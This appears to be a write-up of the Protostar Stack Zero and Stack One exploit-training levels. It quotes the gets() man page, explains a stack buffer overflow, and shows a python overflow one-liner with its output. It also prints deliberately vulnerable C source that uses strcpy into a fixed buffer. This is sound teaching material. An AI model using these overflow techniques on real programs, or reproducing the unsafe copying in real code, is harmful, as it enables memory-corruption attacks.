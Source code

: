 ```shell
BUGS
       Never use gets().  Because it is impossible to tell without knowing the data in advance how many characters gets()
       will read, and because gets() will continue to store characters past the end of the buffer, it is  extremely  dan‐
       gerous to use.  It has been used to break computer security.  Use fgets() instead.

       For  more information, see CWE-242 (aka "Use of Inherently Dangerous Function") at http://cwe.mitre.org/data/defi‐
       nitions/242.html

```
The issue as stated in the bug is that the characters are stored within the `buffer` and the characters inputted can go over the allocated amount without any checks. Since the buffer variable is stored on the stack. Since the variable `monitored` is placed on the stack before the buffer array and knowing that the stack grows downward we can overwrite the monitored variable and change the value. We can test this with the help of some python.

```shell
python -c "print 'A'*68" | ./stack0
```

The output reveals that we have changed the variable

```shell
ap3x@kali-exploitdev:~/Documents/ExploitExercise/Protostart$ python -c "print 'A'*65" | ./stack0 
you have changed the 'modified' variable
```

## Stack One

### Source Code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}

```
### Overview
`This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.`
